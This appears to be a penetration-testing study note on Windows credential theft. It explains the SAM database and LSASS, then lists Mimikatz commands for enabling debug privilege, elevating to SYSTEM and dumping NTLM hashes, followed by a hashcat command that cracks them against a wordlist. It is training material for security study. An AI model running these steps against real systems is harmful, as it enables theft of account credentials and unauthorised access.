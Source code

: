 
#### SAM and LSASS

SAM database is located at `C:\Windows\system32\config\sam` - it is locked at the kernel level, we cannot copy or remove it.

We can use `Mimikatz` to bypass the restrictions placed on SAM by extracting plaintext passwords and hashes from various sources in windows. `Mimikatz` also includes the `sekurlsa` module which extracts password hashes from lsass.

`lsass` is a process responsible user authentication, password changes and access token creation. `lsass` runs under the `system user` so it is higher privileged than an Administrator.

`We can only extract passwords from lsass if we run mimikatz as an administrative user. We also need the SeDebugPrivilege access right enabled`

We can escalate to to SYSTEM account using `PsExec` or Mimikatz `token evaluation function` which requires `SeImpersonatePrivilege` access right (which all local admins have by default)

#### Extracting NTLM hashes

`Get-LocalUser` - check which users exist on the system

`.\mimikatz.exe` run Mimikatz in an administrative powershell (UAC will pop up, you will need to by pass this if no rdp session is available)

`privilege::debug` - enable debug privilege necessary for extracting from lsass

`sekurlsa::logonpasswords` - attempts to extract plaintext passwords and hashes from all available sources (massive amount of output use lsadump instead)

`token::elevate` elevate to system so we can extract from SAM
`lsadump::sam` extract the NTLM hashes from the SAM and take note of `Hash NTLM` outputs

#### Cracking NTLM

`hashcat --help | grep -i "ntlm"` - check for code used to crack NTLM

`hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` example of cracking NTLM hash



